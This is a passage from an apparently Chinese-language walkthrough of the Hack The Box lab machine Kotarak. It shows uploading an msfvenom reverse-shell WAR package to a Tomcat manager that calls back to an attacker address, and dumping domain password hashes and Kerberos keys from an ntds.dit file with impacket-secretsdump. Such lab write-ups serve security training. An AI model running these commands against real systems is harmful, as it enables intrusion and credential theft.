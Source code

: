 尝试使用该账号密码登录8080端口的tomcat管理页面

![](HTB之Kotarak/image_iRHh7VmwH8.png)

# 上传恶意war包

使用`msfvenom`生产恶意war包并上传

```bash
$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war -o rev.war
Payload size: 13314 bytes
Final size of war file: 13314 bytes
Saved as: rev.war
```

![](HTB之Kotarak/image_PBM3QwE_j6.png)

访问url即可在443端口接收到shell

```http
http://10.10.10.55:8080/rev
```

![](HTB之Kotarak/image_vigyUMtnvz.png)

通过[reverse-ssh工具](https://github.com/Fahrj/reverse-ssh "reverse-ssh工具")升级交互式shell

![](HTB之Kotarak/image_kZsiEJsV8A.png)

# 提权至atanas用户

查看flag文件`/home/atanas/user.txt`提示无权限，所以这里要先提权到atanas用户，查看当前用户目录`/home/tomcat`下所有文件，发现windows注册表文件和`ntds.dit`文件

`ntds.dit `文件是一个存储 Active Directory 数据的数据库，通常在在域控中，包括有关用户对象、组和组成员的信息，并且该文件还存储域中所有用户的密码哈希，

![](HTB之Kotarak/image_4PaPBZ1yK1.png)

## dumphash

将上面的`.dit`和`.bin`拉到kali本地，kali集成`impacket`工具箱里的`impacket-secretsdump`命令可以就可以提取用户的密码hash

```bash
$ impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
```